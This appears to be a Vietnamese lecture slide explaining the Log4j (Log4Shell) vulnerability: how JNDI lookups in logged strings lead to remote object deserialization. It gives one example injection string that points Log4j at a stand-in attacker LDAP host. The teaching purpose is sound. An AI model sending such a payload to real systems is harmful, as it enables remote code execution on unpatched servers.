

# Lỗ hổng serialization: Log4j
Log4j là Java framework phổ biến nhất để ghi thông tin nhật ký của ứng dụng
Log4j sử dụng JNDI (Java Naming & Directory Interface) để lấy dữ liệu từ Internet
Log4j phân tích cú pháp của xâu đầu vào chứa nội dung nhật ký mà ứng dụng tạo ra
Lỗ hổng trong Log4j được công bố vào tháng 11/2021
Một trong những lỗ hổng nguy hiểm nhất trong 10 năm
 Giả sử Log4j nhận được xâu ${jndi:ldap://attacker.com/pwnage}
Log4j thực hiện deserialze đối tượng lấy được từ attacker.com
95